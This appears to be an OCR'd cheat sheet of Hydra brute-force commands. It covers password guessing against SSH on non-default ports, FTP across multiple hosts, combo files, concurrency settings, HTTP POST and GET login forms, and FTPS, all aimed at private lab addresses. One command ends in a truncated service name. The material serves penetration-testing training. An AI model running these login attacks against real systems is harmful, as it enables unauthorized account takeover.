 ## Specifying Non-Default Ports



`hydra -L users.txt -P pass.txt 192.168.1.141 ssh -s 2222`

## Attacking Multiple Hosts



`hydra -L users.txt -P pass.txt -M hosts.txt ftp`

Exit after first found login:****
`hydra -L users.txt -P pass.txt -M hosts.txt ftp -F`

## Using Login:Password Combo Files


`hydra -C userpass.txt 192.168.1.141 ftp`

## Concurrent Login Testing


`hydra -L users.txt -P pass.txt 192.168.1.141 ftp -t 3 -V`

## HTTP Form Brute Forcing

POST form:


`hydra -l admin -P pass.txt 192.168.1.150 http-post-form "/login.php:username=^USER^&password=^PASS^"`

GET form:

`hydra 192.168.1.150 -l admin -P pass.txt http-get-form "/login:username=^USER^&password=^PASS^"`

## Display Module Usage

`hydra http-post-form -U`

## Attacking Secured Services


`hydra -l ignite -P pass.txt ftps://192.168.1.141`

Or:

`hydra -l ignite -P pass.txt 192.168.1.141 f`

---

## Using SSL Connections
**Connect over SSL:**

```
hydra -l ignite -P pass.txt ftps://192.168.1.141
```

